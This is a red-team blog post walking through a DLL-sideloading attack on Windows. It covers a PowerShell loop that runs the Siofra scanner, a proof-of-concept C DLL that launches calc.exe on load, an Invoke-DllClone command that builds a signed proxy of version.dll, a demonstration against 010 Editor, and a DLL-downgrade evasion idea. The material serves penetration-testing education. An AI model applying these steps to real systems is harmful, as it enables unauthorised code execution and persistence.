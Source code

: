 Title: DLL-Sideloading Attack: A Fast How-To
Date: 2023-06-09 22:00
Category: Red
Tags: Koppeling, DLL, Sideload, Sideloading, Red-Team, Windows

## What is DLL-Sideloading

In this guide, we will provide a quick overview of a DLL-sideloading attack and demonstrate how it can be executed.
Dynamic link libraries (DLLs) are loaded by the operating system (OS) when an application starts. There are two main methods of loading DLLs, and we focus on those that are specified only by name and not by an absolute path.

DLLs without a specified path are searched by the OS. The OS has a defined search order, which can vary depending on certain settings such as Safe-DLL. To determine the specific search order for your system, you can conduct a search or refer to relevant documentation.

## The Attack

If we can successfully place our own loaded DLL in a directory that is part of the search order and is positioned earlier than the original file, our DLL will be loaded along with the program. It is crucial to note that we must have write access to the directory in order to accomplish this.

## Tools

### siofra
There is a tool that is able to search for these kinds of vulnerabilities I like:
It is [siofra](https://github.com/Cybereason/siofra).

Consider the following powershell script from [here](https://twitter.com/ShitSecure/status/1566126264469098497/photo/1). For 32-bit exchange the Siofra.exe

```powershell
Get-ChildItem -Path "C:\Program Files\" -Filter *.exe -Recurse -File -Name | ForEach-Object{
    mkdir C:\temp\hijacktest
    $binarytoCheck = "C:\Program Files\" + $_
    C:\Tools\siofra\Siofra64.exe --mode file-scan --enum-dependency --dll-hijack -f $binarytoCheck >> C:\temp\hijacktest\toCheck.txt
}
```

Generally the output can be considered in two parts, the binary analysis shows which dlls might be attackable with an exlamation mark:

![picture 1](../images/49369742dbe0ea41b57696a371613a5574117beee51a7cf96318b04763785fb5.png)  

In the next section it will analyse the probable attackable libraries and gives an exploitabilty suggestion:
![picture 2](../images/38019f07c834ac302e5f4c84eba042d7d9a2836f8f507832967946b3a8177bda.png)  

Here you can see, which dll's one would have to place and where.
A nice next step would be to get which of the vulnerable marked locations are writeable to us.

### Koppeling

When placing a DLL with our attack code, we quickly realize the need to provide all the functions that the main binary wants to import from the library. This challenge is addressed by using [koppeling](https://github.com/monoxgas/Koppeling). 

Koppeling is a tool that allows us to provide the original desired DLL and our attacker code separately. It facilitates the merging of these components, ensuring that all the required functions are available for the application.

I use [Invoke-DLLClone](https://github.com/jfmaes/Invoke-DLLClone), which uses Koppeling inside, since I had problems with the original code. Then we just need some dll code like this:

```c
#include <windows.h>
#include "pch.h"

DWORD WINAPI fireLazor(LPVOID lpParameter) {
	WinExec("calc.exe", 0);
	return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved) {
    HANDLE threadHandle;

    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        threadHandle = CreateThread(NULL, 0, fireLazor, NULL, 0, NULL);
        CloseHandle(threadHandle);

    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

### Example

I will attack 010 editor. As we saw before, its version.dll is vulnerable.

Compile the source code from above with Visual Studio as a DLL library and run

```powershell
Invoke-DllClone -Source C:\Windows\System32\version.dll -target C:\Users\you\source\repos\Dll1\x64\Release\urname.dll -output version.dll -sign
```

Placing it in the same directory as 010 editor and running it will cause this:

![picture 3](../images/aed4d3a15b0f37c3c97b5f5b5ba5a23b950a4742a951ec51dae51ae7a9594800.png)  


## Downgrading

Most of the time, I consider myself to be in a lower privileged position and contemplate injecting my code somewhere. However, there is another attack against DLL sideloading known as downgrading. This attack may be challenging or ineffective in low-privilege situations, but it becomes particularly interesting in higher privilege scenarios.

With downgrading, we can replace a DLL with a known vulnerable version. If the other imported functions remain intact, the loading process will succeed (although there may be cases where the output of the functions has changed, resulting in runtime issues, but this is not very common).

A downgraded attack-code-free DLL is extremely difficult for the blue team to track. In fact, it can even be an officially signed DLL. Of course, it's essential to have an appropriate exploit to make use of this technique, so keep that in mind.